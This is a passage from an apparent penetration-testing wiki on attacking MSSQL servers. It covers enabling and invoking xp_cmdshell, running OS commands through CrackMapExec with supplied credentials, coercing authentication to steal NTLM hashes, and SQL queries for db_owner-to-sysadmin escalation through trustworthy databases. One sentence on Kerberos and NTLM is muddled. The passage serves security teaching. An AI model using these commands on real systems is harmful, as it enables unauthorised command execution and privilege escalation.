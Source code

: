 ```sql
# Enable xp_cmdshell
SQL (dbo@master)> enable_xp_cmdshell

# Execute command
SQL (dbo@master)> xp_cmdshell whoami
```
{% endtab %}

{% tab title="CrackMapExec" %}
Tools like [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) can be used to execute OS commands from MSSQL

```bash
crackmapexec mssql <TARGET> -d <DOMAIN> -u <USER> -p <PASSWORD> -x "whoami"
```
{% endtab %}
{% endtabs %}

To directly execute or read/write files on a MSSQL instance, check the following page:

{% content-ref url="../../../web/infrastructures/dbms/exploit-databases.md" %}
[exploit-databases.md](../../../web/infrastructures/dbms/exploit-databases.md)
{% endcontent-ref %}

### Coerced Auths (Stealing NTLM Hash)

On MS-SQL (Microsoft SQL) servers, the EXEC method can be used to access a remote SMB share. MSSQL uses **Keberos** to authenticate users so we can retrieve the NTLM hash.

{% content-ref url="../../../ad/movement/mitm-and-coerced-authentications/living-off-the-land.md" %}
[living-off-the-land.md](../../../ad/movement/mitm-and-coerced-authentications/living-off-the-land.md)
{% endcontent-ref %}

### MSSQL Privilege Escalation

{% tabs %}
{% tab title="db_owner to sysadmin" %}
If a **regular user** is given the role **`db_owner`** over the **database owned by an admin** user (such as **`sa`**) and that database is configured as **`trustworthy`**, that user can abuse these privileges to **privesc** because **stored procedures** created in there that can **execute** as the owner (**admin**).

To enumerate, run the following queries

```sql
# Get owners of databases
SELECT suser_sname(owner_sid) FROM sys.databases

# Find trustworthy databases
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;

# Get roles over the selected database (look for your username as db_owner)
USE <trustworthy_db>
SELECT rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```
